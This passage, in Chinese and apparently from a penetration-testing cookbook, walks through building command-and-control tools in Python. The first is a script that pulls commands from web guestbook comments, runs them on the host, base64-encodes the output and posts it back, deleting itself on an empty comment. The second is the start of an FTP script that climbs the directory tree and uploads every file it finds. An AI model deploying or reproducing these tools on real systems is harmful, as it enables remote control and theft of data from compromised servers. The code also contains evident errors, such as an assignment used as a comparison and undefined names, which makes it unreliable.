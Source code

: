 我们要做的第一件事是检查是否有空评论。这对脚本来说意味着它应该删除自己，这是一个非常重要的无人值守 C2 脚本机制。如果您希望脚本删除自己，只需在页面上留下一个空评论。脚本通过查找自己的名称并删除该名称来删除自己：

```py
for comment in comments:
    if comment = " ":
      os.delete(__file__)
```

如果评论不为空，我们尝试使用`subprocess`命令将其传递给系统。重要的是你在命令上使用`.split()`来考虑`subprocess`如何处理多部分命令。我们使用`.check_output`将命令直接返回给我们分配的变量：

```py
else:
      try:
        response = subprocess.check_output(comment.split())
```

如果命令失败，我们将响应值设置为`命令失败`：

```py
      except:
        response = "command fail"
```

我们取`response`变量并将其分配给与字典中的 PHP 脚本匹配的键。在这种情况下，字段名为`comment`，因此我们将输出分配给评论。我们对输出进行 base64 编码，以便考虑到任何可能干扰我们脚本的随机变量，例如空格或代码：

```py
data={"comment":(''.join(response)).encode("base64")}
```

现在数据已经分配，我们将其发送到我们预先配置的服务器的`POST`请求中，并等待`30`秒再次检查评论中是否有进一步的指示：

```py
newreq = requests.post("http://127.0.0.1/addguestbook.php", data=data)
  time.sleep(30)
```

# 创建 FTP C2

这个脚本是一个快速而肮脏的文件窃取工具。它沿着目录直线运行，抓取它接触到的一切。然后将这些导出到它指向的`FTP`目录。在您可以放置文件并希望快速获取服务器内容的情况下，这是一个理想的起点。

我们将创建一个连接到 FTP 的脚本，获取当前目录中的文件，并将它们导出到 FTP。然后它跳到下一个目录并重复。当它遇到两个相同的目录列表（也就是说，它到达了根目录）时，它就会停止。

## 入门

为此，您将需要一个正常运行的 FTP 服务器。我正在使用`vsftpd`，但您可以使用任何您喜欢的。您需要将凭据硬编码到脚本中（不建议）或者作为标志与凭据一起发送。

## 如何做...

我们将使用的脚本如下：

```py
from ftplib import FTP
import time
import os

user = sys.argv[1]
pw = sys.argv[2]

ftp = FTP("127.0.0.1", user, pw)

filescheck = "aa"

loop = 0
up = "../"

while 1:
  files = os.listdir("./"+(i*up))
```
